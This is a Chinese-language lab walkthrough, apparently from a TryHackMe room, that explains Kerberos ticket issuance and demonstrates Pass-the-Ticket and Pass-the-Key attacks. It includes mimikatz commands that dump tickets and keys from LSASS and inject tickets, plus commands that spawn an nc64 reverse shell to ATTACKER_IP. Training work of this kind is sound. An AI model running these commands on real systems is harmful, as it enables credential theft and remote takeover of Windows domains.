 当用户想要连接到网络上的服务（如共享、网站或数据库）时，他们将使用他们的 TGT 向 KDC 请求票证授予服务 （TGS）。TGS 是仅允许连接到为其创建的特定服务的票证。若要请求 TGS，用户将发送其用户名和使用会话密钥加密的时间戳，以及 TGT 和服务主体名称 （SPN），该名称指示我们打算访问的服务和服务器名称。

因此，KDC 将向我们发送 TGS 和服务会话密钥，我们需要向要访问的服务进行身份验证。TGS 使用服务所有者哈希进行加密。服务所有者是运行服务的用户或计算机帐户。TGS 在其加密内容上包含服务会话密钥的副本，以便服务所有者可以通过解密 TGS 来访问它。

<img src='https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0db01f1f1434f33fa8fb11de2bd165a6.png' />

然后，可以将 TGS 发送到所需的服务以进行身份验证并建立连接。该服务将使用其配置的帐户的密码哈希来解密 TGS 并验证服务会话密钥。

<img src='https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5d45b999328017c22b0f249069a88767.png' />

---

### 门票通行证 & 票证注入

有时可以使用mimikatz从LSASS内存中提取Kerberos票证和会话密钥。该过程通常需要我们在受攻击的计算机上具有SYSTEM权限，并且可以按以下步骤完成：

    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export
请注意，如果我们只能访问票证，而不能访问其相应的会话密钥，我们将无法使用该票证;因此，两者都是必要的。

虽然mimikatz可以从LSASS进程的内存中提取任何可用的TGT或TGS，但大多数时候，我们会对TGT感兴趣，因为它们可用于请求访问允许用户访问的任何服务。同时，TGS 仅适用于特定服务。提取 TGT 需要我们具有管理员凭据，并且可以使用低特权帐户（仅分配给该帐户的帐户）提取 TGS。

提取所需的票证后，我们可以使用以下命令将票证注入当前会话：

    mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi

在我们自己的会话中注入票证不需要管理员权限。在此之后，门票将可用于我们用于横向移动的任何工具。要检查票证是否正确注入，您可以使用 klist 命令：

    za\bob.jenkins@THMJMP2 C:\> klist

### 哈希传递/密钥传递

这种攻击类似于PtH，但适用于Kerberos网络。

当用户请求 TGT 时，他们会发送一个时间戳，该时间戳使用从其密码派生的加密密钥进行加密。用于派生此密钥的算法可以是 DES（在当前 Windows 版本上默认禁用）、RC4、AES128 或 AES256，具体取决于安装的 Windows 版本和 Kerberos 配置。如果我们有这些密钥中的任何一个，我们可以向 KDC 请求 TGT，而无需实际密码，因此称为传递密钥 （PtK）。

我们可以通过使用 mimikatz 和以下命令从内存中获取 Kerberos 加密密钥：

    mimikatz # privilege::debug
    mimikatz # sekurlsa::ekeys

根据可用的密钥，我们可以在 mimikatz 上运行以下命令，通过传递密钥获取反向 shell（为了方便起见，THMJMP2 中已经提供了）：nc64

如果我们有 RC4 哈希：

    mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

如果我们有 AES128 哈希：

    mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

如果我们有 AES256 哈希：

    mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
